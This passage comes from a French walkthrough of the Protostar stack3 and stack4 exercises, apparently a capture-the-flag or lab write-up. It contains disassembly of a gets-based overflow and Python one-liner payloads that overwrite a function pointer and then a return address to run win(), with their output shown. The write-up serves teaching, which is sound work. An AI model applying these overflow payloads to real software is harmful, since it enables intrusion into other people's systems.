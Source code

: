 Gotcha :

```bash
$ python -c 'print "\x24\x84\x04\x08"*20' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
Segmentation fault
```

## Level 4

On entre finalement sur un cas plus réaliste : ici pas de pointeur sur fonction, il faut écraser l'adresse de retour en débordant du tampon assigné au buffer.

```nasm
int main (int argc, char **argv, char **envp);
; var char *s @ esp+0x10
0x08048408      push    ebp
0x08048409      mov     ebp, esp
0x0804840b      and     esp, 0xfffffff0
0x0804840e      sub     esp, 0x50
0x08048411      lea     eax, [s]
0x08048415      mov     dword [esp], eax ; char *s
0x08048418      call    gets       ; sym.imp.gets ; char *gets(char *s)
0x0804841d      leave
0x0804841e      ret
0x0804841f      nop
```

On a toujours une fonction `win()` mais à l'adresse `0x080483f4`.

```bash
$ $ python -c 'print "\xf4\x83\x04\x08"*30' | ./stack4
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
code flow successfully changed
Segmentation fault
```

On a dépassé les attentes en faisant exécuter la fonction plusieurs fois car étant utilisé à plusieurs reprises comme adresse de retour.

Ca montre un apperçu du ROP programming :)

## Level 5

On est dans un cas similaire au level 0 :
